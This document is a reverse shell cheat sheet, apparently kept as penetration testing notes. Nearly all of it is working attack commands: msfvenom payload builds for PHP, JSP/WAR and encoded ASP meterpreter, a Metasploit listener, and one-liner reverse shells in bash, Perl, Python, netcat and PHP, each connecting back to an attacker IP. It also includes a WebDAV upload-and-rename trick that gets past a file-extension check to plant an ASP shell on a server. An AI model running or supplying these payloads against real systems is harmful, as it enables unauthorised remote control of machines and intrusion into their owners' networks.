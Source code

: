 ### Shell example

#### Reverse Shell Cheat Sheat

PHP Reverse Shell
```
msfvenom -p php/reverse_php LHOST=10.10.10.10 LPORT=4444 -e php/base64 -f raw > shell.php
```
Karşılaması

```
msf> use exploit/multi/handler
set payload php/reverse_php
set lhost 10.10.10.10
exploit
```

##### BASH

bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

##### PERL

perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

##### PYTHON

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

##### NETCAT

nc -e /bin/sh 10.0.0.1 1234

##### PHP PentestMonkey

http://pentestmonkey.net/tools/web-shells/php-reverse-shell
```
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
```

##### PHP Windows-reverse-shell
https://github.com/Dhayalanb/windows-php-reverse-shell

##### PHP One Line Shell
```
<?php
shell_exec("/bin/bash -c 'bash -i >& /dev/tcp/10.11.0.52/4444 0>&1'");
?>
```

##### JSP PAYLOAD TOMCAT
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.11.0.52 LPORT=443 -f war > shell-209.war
```

##### ASP Shell @Txt bypass
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.11.0.52 LPORT=443 -f asp -e x86/shikata_ga_nai -i 3 > 52.txt
cadaver http://10.11.1.229
curl -X MOVE --header "Destination:http://10.11.1.229/52.asp;.txt" "http://10.11.1.229/52.txt"
```

 
